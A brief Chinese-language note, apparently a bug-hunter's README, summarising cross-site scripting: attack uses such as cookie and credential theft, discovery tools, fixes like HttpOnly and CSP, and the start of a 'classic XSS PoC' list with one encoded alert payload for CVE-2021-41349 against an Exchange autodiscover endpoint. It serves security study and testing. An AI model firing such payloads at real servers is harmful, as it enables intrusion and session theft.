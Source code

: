 常用标签：https://www.freebuf.com/articles/web/340080.html

攻击利用：盲打，COOKIE盗取，凭据窃取，页面劫持，网络钓鱼，权限维持等

挖掘方法：代码审计、XRAY扫描、XSCAN、手工探测、burp_fuzz

安全修复：字符过滤，实例化编码，http_only，CSP防护，WAF拦截等

测试流程：看输出想输入在哪里，更改输入代码看执行（标签，过滤决定）

> 漏洞挖掘非一朝一夕  贵在坚持！

## 经典XSS_POC整理（持续更新）

**jQuery-with-XSS**

https://github.com/mahp/jQuery-with-XSS

**CVE-2021-41349**

```
POST /autodiscover/autodiscover.json

%3Cscript%3Ealert%28document.domain%29%3B+a=%22%3C%2Fscript%3E&x=1
```

